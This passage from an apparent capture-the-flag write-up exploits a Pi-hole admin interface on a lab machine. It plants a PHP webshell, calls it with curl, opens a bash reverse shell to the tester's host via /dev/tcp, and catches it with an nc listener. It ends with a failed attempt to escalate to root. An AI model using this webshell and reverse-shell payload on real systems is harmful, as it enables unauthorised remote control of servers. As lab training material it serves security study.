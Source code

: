     .domains
    <?php system($_GET['cmd']); ?>

    ^C



The page looks similar to above, but this time it reports that retrieval
failed:

![](/img/image-20200820162949485.png)

Despite the failure message, there is a webshell at
`/admin/scripts/pi-hole/php/0xdf.php`:



    root@kali# curl http://127.0.0.1:2222/admin/scripts/pi-hole/php/0xdf.php?cmd=id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



### Shell

I can get an interactive shell here using the following:



    root@kali# curl -s -G http://127.0.0.1:2222/admin/scripts/pi-hole/php/0xdf.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.24/443 0>&1'"



At a `nc` listener:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.200.
    Ncat: Connection from 10.10.10.200:50598.
    bash: cannot set terminal process group (526): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@pihole:/var/www.md/admin/scripts/pi-hole/php$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



### Rabbit Hole

I wasted a lot of time trying to get the other half of the Pi-Hole
exploit that goes to root to work. It doesn't. The next step is to use
the same upload steps to append to an existing script, `teleporter.php`.
Unfortunately, the file isn't writable by www-data:



    www-data@pihole:/var/www.md/admin/scripts/pi-hole/php$ ls -l teleporter.php
    -rw-r--r-- 1 root root 6032 Sep 20  2019 teleporter.php

